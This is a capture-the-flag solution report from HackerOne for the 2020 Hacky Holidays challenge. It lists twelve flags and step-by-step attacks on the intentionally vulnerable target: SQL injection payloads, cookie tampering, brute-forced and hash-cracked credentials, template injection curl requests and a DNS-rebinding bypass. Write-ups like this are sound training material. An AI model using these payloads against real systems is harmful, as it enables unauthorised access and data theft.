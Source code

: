 # Grinch-Networks taken down - hacky holidays CTF 

## Report Details
- **Report ID**: 1069189
- **URL**: https://hackerone.com/reports/1069189
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-12-31T09:09:51.900Z
- **Disclosed**: 2021-01-11T22:06:08.809Z

## Reporter
- **Username**: pirateducky
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
## Summary:
CTF Submission

```
Day 1: flag{48104912-28b0-494a-9995-a203d1e261e7} 
Day 2: flag{b7ebcb75-9100-4f91-8454-cfb9574459f7} 
Day 3: flag{b705fb11-fb55-442f-847f-0931be82ed9a} 
Day 4: flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6} 
Day 5: flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004} 
Day 6: flag{18b130a7-3a79-4c70-b73b-7f23fa95d395} 
Day 7: flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd} 
Day 8: flag{677db3a0-f9e9-4e7e-9ad7-a9f23e47db8b}
Day 9: flag{6e8a2df4-5b14-400f-a85a-08a260b59135}
Day 10: flag{99309f0f-1752-44a5-af1e-a03e4150757d}
Day 11: flag{07a03135-9778-4dee-a83c-7ec330728e72}
Day 12: flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}
```

{F1139188}

## Steps To Reproduce:

- Day 1: /robots.txt
- Day 2: /s3cr3t-ar3a
  - inspect html
  - the flag is dynamically built
- Day 3: /people-rater
  - [https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6MX0=](https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6MX0=)
- Day 4: /swag-shop
  - [https://hackyholidays.h1ctf.com/swag-shop/api/sessions](https://hackyholidays.h1ctf.com/swag-shop/api/sessions)
  - One of the sessions has a user value `C7DCCE-0E0DAB-B20226-FC92EA-1B9043` 
  - [https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043](https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043)
- Day 5:  Secure Login
  - bruteforce the username: `access` & password: `computer`
  - Edit the cookie to make ourselves admin
  - `/my_secure_files_not_for_you.zip` 
  - password for zip: hahahaha
  - {F1139213}
- Day 6: /my-diary/?template=entries.html
  - `/my-diary/?template=index.php` discloses the source
  - [ https://hackyholidays.h1ctf.com/my-diary/?template=secretadsecretaadmin.phpdmin.phpmin.php]( https://hackyholidays.h1ctf.com/my-diary/?template=secretadsecretaadmin.phpdmin.phpmin.php)
- Day 7: /hate-mail-generator
  -  `curl 'https://hackyholidays.h1ctf.com/hate-mail-generator/new/preview' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'preview_markup=Hello+%7B%7Bname%7D%7D+....&preview_data=%7B%22name%22%3A%22%7B%7Btemplate%3A38dhs_admins_only_header.html%7D%7D%22%2C%22email%22%3A%22alice%40test.com%22%7D'`
- Day 8: /forum
  - Github recon: search for "grinch-networks"
  - One username is found [https://github.com/Grinch-Networks](https://github.com/Grinch-Networks)
  - Commit history reveals password [here](https://github.com/Grinch-Networks/forum/commit/efb92ef3f561a957caad68fca2d6f8466c4d04ae)
  - Log into the [phpmyadmin](https://hackyholidays.h1ctf.com/forum/phpmyadmin) with username: `forum` & password: `6HgeAZ0qC9T6CQIqJpD`
  - Get username `grinch` & password `35D652126CA1706B59DB02C93E0C9FBF` which is a hash
  - Use [crackstation](https://crackstation.net/) to get the value `BahHumbug` 
  - Log into the forum with the username: `grinch` & password:`BahHumbug`
  - `curl 'https://hackyholidays.h1ctf.com/forum/3/2' -H 'Cookie: phpmyadmin=98ac2709d3d94e8ba1afefab300deb8e; token=9F315347A655FFDAF70CD4A3529EE8A6`
- Day 9: /evil-quiz
  - Second Order SQLi in `name` parameter
  - use a name like `hax" OR (select 1 from admin)#` to verify the existence of the `admin` table
  - use a name like `hax" OR (select count(password) from admin)#` to verify the column password
 - I decided to bruteforce the password
 - {F1139240} username: `admin` password: `S3creT_p4ssw0rd-$`
- Day 10 /signup-manager
  - [https://hackyholidays.h1ctf.com/signup-manager/README.md](https://hackyholidays.h1ctf.com/signup-manager/README.md) from html source
  - Download [https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip](https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip)
  - Source Code!
  - Need a username that gets us admin `username#password#cookie#age#firstname#lastname#Y` - note the `Y` at the end
  - If we submit a number that "expands" after being evaluated by `$age = intval($_POST["age"]);` we can "overflow" our `lastname` and end up with an admin account
  - `action=signup&username=1337&password=password&age=1e5&firstname=YYYYYYYYYYYYYYY&lastname=YYYYYYYYYYYYYYY` 
- Day 11: /r3c0n_server_4fdk59
  - SQLi insde more SQLi
  - There's a SQL injection in the hash param: `/r3c0n_server_4fdk59/album?hash=3dir42`
  - {F1139250} - script to bruteforce the username & password: `grinchadmin` : `s4nt4sucks`
  - `curl 'https://hackyholidays.h1ctf.com/attack-box' -H 'Cookie: attackbox=d09d508e78f3975e0199a5e91dde9687`
- Day 12: /attack-box
  - The only thing to try to attack is the hash inside the base64 encoded value that maps the target's ip address
  - Use `hashcat` with the hashes we have alongside some guesses for the salt and the ip addresses we have, our guesses will look like `hash:salt:ip`
  - Use some Christmas keywords like `santa, grinch` from wordlists
  - `5f2940d65ca4140cc18d0878bc398955:mrgrinch463:203.0.113.33` 
  - Now we can sign our payloads with the correct salt, but using `127.0.0.1` stops the attack
  - Use DNS rebinding! - [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)
  - `https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS43ZjAwMDAwMi5yYm5kci51cyIsImhhc2giOiI1MzE4NDcxODU0MDBhYjkzOWE5Yzc5NzA3NTAzOGIwYiJ9` 
- https://hackyholidays.h1ctf.com/attack-box/challenge-completed-a3c589ba2709

Thanks to everyone who put this together, it was a ton of fun & thanks to the people I asked questions to - ya'll are awesome.

## Impact

HUGE

## Attachments
- ctf.png
- secure-login.rb
- evil-quiz.rb
- r3c0n_server_4fdk59.rb
